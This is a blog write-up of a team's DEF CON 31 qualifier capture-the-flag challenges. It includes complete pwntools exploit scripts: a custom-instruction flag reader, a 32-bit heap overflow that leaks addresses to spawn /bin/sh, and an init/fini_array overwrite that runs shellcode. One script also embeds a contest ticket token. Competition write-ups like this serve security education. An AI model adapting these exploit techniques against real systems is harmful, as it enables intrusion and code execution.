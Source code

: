 ```yaml
---
title: "[DEF CON Qual-2023] Write-Up"
date: 2023-05-31 20:56:00
tags: 
layout: default
---
```

# Prologue

The teamwork carried me!

I participated DEF CON 31 qualification round last weekend as a member of P1G BuT S4D and we got 9th at this round. 

I write this article to document several challenges I worked on.

You can also find the official challenge source code/ solution here: https://github.com/nautilus-institute/quals-2023

# Blackbox

Analysis:
We need to reverse the challenge by interacting with it. 

The structure of the payload is 
```p16(len(code)//2)+code```
- The first 2 bytes represent the size of the instructions
- Each instruction's length is 2

Solution:
- Find the institutions to 
  - set the registers
  - syscall open
  - syscall read

We spent about 6 hours on open cuz it always gives the error message "failed to open xxx". Even we pass "." as the parameter.

But in the end, my teammates reminded me that it could be fopen. This message helped us solve it in the last 10 mins.

Exploit:

```python
from pwn import *
context.log_level='debug'
p = remote("blackbox-bamkcvy55ihl4.shellweplayaga.me",33773)
p.sendlineafter("Ticket please: ","ticket...")
def pack(c):
    return p16(len(c)//2)+c
def one(c,cc=0):
    p.send(pack(c))
    if cc==0:
        p.sendlineafter(")\n","y")
def XxX(filename):
    res=b''
    targets = [ord(x) for x in filename]
    cur = 0
    for target in targets:
        res+=p16(0x0080+target)+p16(0xd000)+p16(0x1080+target)
    return res+p16(0xd000)
one(XxX("flag\0r\0AAAAAA")+p16(0x0280+2)+p16(0x0380+2)+p16(0x0080+4)+p16(0xf000)+p16(0x0081)+p16(0x0280+0)+p16(0x0380+0x7f)+p16(0xf000)+p16(0x1080+1)+p16(0x1180+111)+p16(0xf000))
p.interactive()
```

# open-house

It's a simple x32 heap overflow. I solved it locally but for the remote one, we need to leak the libc. My teammates finally used dynelf to leak. I attached my local solution for the challenge.

```
from pwn import *
# 
context.arch='i386'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# p=process('./open-house')
# context.log_level='debug'

ru      = lambda a:     p.readuntil(a)
r       = lambda n:     p.read(n)
sla     = lambda a,b:   p.sendlineafter(a,b)
sa      = lambda a,b:   p.sendafter(a,b)
sl      = lambda a:     p.sendline(a)
s       = lambda a:     p.send(a)
p= remote("open-house-6dvpeatmylgze.shellweplayaga.me",10001)
sla(": ","ticket{StreetDeed544n23:gaVixliBvaQ2kmfgEJGTGexWuFwQx4S2R3stRpvhf9WN-T5d}")

def menu(c):
    ru('> ')
    sl(c)
def add(c):
    menu('c')
    ru('review!')
    sl(c)
def dele(idx):
    menu('d')
    ru('delete?')
    sl(str(idx))
def edit(idx,c):
    menu('m')
    ru('replace?')
    sl(str(idx))
    ru('with?')
    sl(c)
def show():
    menu('v')
from z3 import *
def XxX(leaked):
    leaked = BitVecVal(leaked, 32)
    res  = BitVec('res', 32)
    s = Solver()
    s.add((res>>12)^res==leaked)
    s.add(res>>24<=0x57)
    s.add(res>>24>=0x55)
    if str(s.check()) == 'sat':
        m = s.model()
        return  m.evaluate(res).as_long()
    else:
        print(s.check())
        exit(1)
payload = b'a'*0x1fe
for x in range(13):
    add("a"*0x1f9)


for x in range(10):
    dele(1)
for x in range(8):
    add("")

show()


for _ in range(19):
    ru(b"****")
ru("\n")
heap = u32(p.read(3).rjust(4,b'\0'))
heap = XxX(heap)&0xfffff000
warning(hex(heap))
ru(b"****")
ru(b"****")

ru("\n")
p.read(3)
base = u32(p.read(4))-(0xf7f1ea38-0xf7cf8000)
warning(hex(base))


for x in range(24):
    dele(1)
add(b"\1"*0x220)
add(b"\2"*0x220)
add(b"\3"*0x220)

show()

edit(2,b"\1"*0x200+flat([0x573d04b4-0x573cd000+heap,0]))
show()
for _ in range(3):
    ru(b"**** - ")
pie= u32(p.read(4))-0x3164
warning(hex(pie))
# gdb.attach(p)
context.log_level='debug'

edit(1,b'/bin/sh\0'.ljust(0x200,b'\0')+flat([0x3124+pie-8,pie+0x4000-0x300]))

edit(2,b'/bin/sh\0'+flat([0x47cb0+base,0x70ca0+base]))

dele(1)

p.interactive()
```

# Test Your Luck

This challenge is interesting. I like Test Your Luck most!!!
We 
1. Modify the seed on bss to make sure we can guess the number
2. Modify init_array to mprotect bss to make it executable + Modify fini_array to reuse the vulnerability
3. Return to BSS

```python
from pwn import *
context.log_level='debug'
context.arch='amd64'

HOST = os.environ.get('HOST', 'localhost')
PORT = 31337
p=  remote(HOST, int(PORT))
ru         = lambda a:     p.readuntil(a)
r         = lambda n:        p.read(n)
sla     = lambda a,b:     p.sendlineafter(a,b)
sa         = lambda a,b:     p.sendafter(a,b)
sl        = lambda a:     p.sendline(a)
s         = lambda a:     p.send(a)


base = u64(p.read(8))
warning(hex(base))
xxx = 0x3000-0x400
sh=asm(shellcraft.execve("./submitter",0,0))
sh+=b"\x90"*((-len(sh))%8)
pay = b''
for _ in range(int(len(sh)//8)):
    pay+= p64(base+xxx+_*8)+sh[_*8:_*8+8]

p.send(p64(base+0x45B4)+p64(0)+\
       p64(base+0x4338)+p64(0x1200+base)+\
       p64(base+0x4330)+p64(0x1370+base)+\
       p64(0))
p.send(p32(0))
p.read(8)
p.send(pay+p64(base+0x45B4)+p64(0)+\
       p64(base+0x4330)+p64(xxx+base)+\
       p64(base+0x4330-8)+p64(xxx+base)+\
       p64(0))
flag = p.recvline_contains(b'LiveCTF{').decode().strip()
log.info('Flag: %s', flag)

p.interactive()
```  

# Other Challenges
I also contributed to other challenges. Although I didn't achieve the final exploit script. I'll reproduce some of them and attach them below.


- ptrace-me-maybe
- Three-Guard
- Don't bLinkl

# Epilogue

This year's qual is much more enjoyable for me. I am not saying it's easy but it's definitely educational cuz I know something I can't learn on tuff heap stuff and crazy ROP.  Thank NI so much for writing these interesting elegant challenges and I am looking forward to meeting everyone in Las Vegas!

